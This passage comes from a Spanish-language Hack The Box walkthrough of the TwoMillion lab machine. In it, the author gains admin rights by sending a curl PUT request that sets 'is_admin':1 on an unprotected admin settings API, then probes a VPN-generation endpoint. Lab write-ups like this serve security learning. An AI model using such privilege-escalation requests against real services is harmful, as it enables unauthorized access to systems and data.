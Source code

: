 
<i>Con curl se podría haber sacado con este comando</i>

```bash
❯ curl -s -X PUT "http://2million.htb/api/v1/admin/settings/update" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" -H "Content-Type: application/json" -d '{"email":"hi@hi.com","is_admin":1}'| jq
{
  "id": 14,
  "username": "hi",
  "is_admin": 1
}
```

Parece que ya tenemos administrador, vamos a comprobarlo con el endpoint que habíamos enumerado anteriormente.

![](/assets/images/htb-writeup-twomillion/13.png)

Y efectivamente somos admin. Antes  no me dejaba generar una vpn para un usuario. Voy a probar ahora
```bash
❯ curl -s -X POST "http://2million.htb/api/v1/admin/vpn/generate" -H "Cookie: PHPSESSID=5a2jtf8ii4cqbc8m7097kj74n0" | jq
{
  "status": "danger",
  "message": "Invalid content type."
}
```
Ahora vemos como nos responde distinto que antes. Vamos a volver a añadir el Content-Type que nos pide.

![](/assets/images/htb-writeup-twomillion/14.png)
